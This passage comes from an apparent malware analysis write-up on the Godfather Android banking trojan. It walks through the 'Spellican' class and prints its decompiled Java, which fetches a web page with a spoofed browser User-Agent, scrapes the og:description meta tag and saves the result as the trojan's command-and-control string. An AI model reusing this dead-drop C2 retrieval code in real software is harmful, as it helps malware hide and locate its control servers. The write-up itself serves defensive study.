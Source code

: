 #### Spellican


{{< image src="img/2025-03-14-godfather-android-analysis/img16.png" caption="Figure 16 - Spellican Class" wrapper="text-center">}} 


This function creates an OkHttpClient.Builder. 
It configures the timeouts for connect, write, read, and total call to 50 seconds each.
Convert the response body to a string using a regex to search for a specific meta tag with property=”og:description” and capture the contents of the tag.
For each occurrence found by the regex, call the Sandrakottos method to save the content in the SharedPreferences under the key “min”.


{{< image src="img/2025-03-14-godfather-android-analysis/img17.png" caption="Figure 17 - SharedPrefrence Reference" wrapper="text-center">}} 
Which, in fact, turns out to be the C2 string analyzed earlier.


```Java

public static void spellican(String url, Context context) throws IOException {
        OkHttpClient.Builder builder = new OkHttpClient.Builder();
        TimeUnit timeUnit = TimeUnit.SECONDS;
        OkHttpClient client = builder.connectTimeout(50L, timeUnit).writeTimeout(50L, timeUnit).readTimeout(50L, timeUnit).callTimeout(50L, timeUnit).build();
        Request request = new Request.Builder().url(url).addHeader(("User-Agent"), ("Mozilla/5.0 (Linux; Android 10; SM-J610F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.88 Safari/537.36")).build();
        try {
            Response response = client.newCall(request).execute();
            if (!response.isSuccessful()) {
                throw new IOException(("Unexpected code") + response);
            }
            String tele = response.body().string();
            Pattern pattern = Pattern.compile(('<meta property=\"og:description\" content=\"(.*?)\">'), 32);
            Matcher matcher = pattern.matcher(tele);
            while (matcher.find()) {
                Sandrakottos(context, ("min"), matcher.group(1));
            }
            response.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }


```

#### Rarefeatured

{{< image src="img/2025-03-14-godfather-android-analysis/img18.png" caption="Figure 18 - Rarefeatured Class" wrapper="text-center">}} 

